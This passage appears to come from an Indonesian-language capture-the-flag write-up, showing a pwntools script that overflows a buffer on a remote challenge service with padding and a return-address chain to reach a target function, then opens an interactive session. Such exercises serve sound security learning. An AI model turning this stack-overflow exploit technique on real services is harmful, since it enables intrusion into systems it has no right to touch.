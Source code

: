 selanjutnya tinggal mencoba dengan online service 

```python
from pwn import *
p = remote("103.147.32.214", 9009)
p.recvline()
padding = "A"*cyclic_find("aacmaacnaa")
RIP = p64(0x4012c3)
RET = p64(0x4013f4)
p.sendline("th15_i5_n0t_4_fl4g\x00" + padding + RET +RIP)
p.interactive()

```
![Gdb3](5.png)



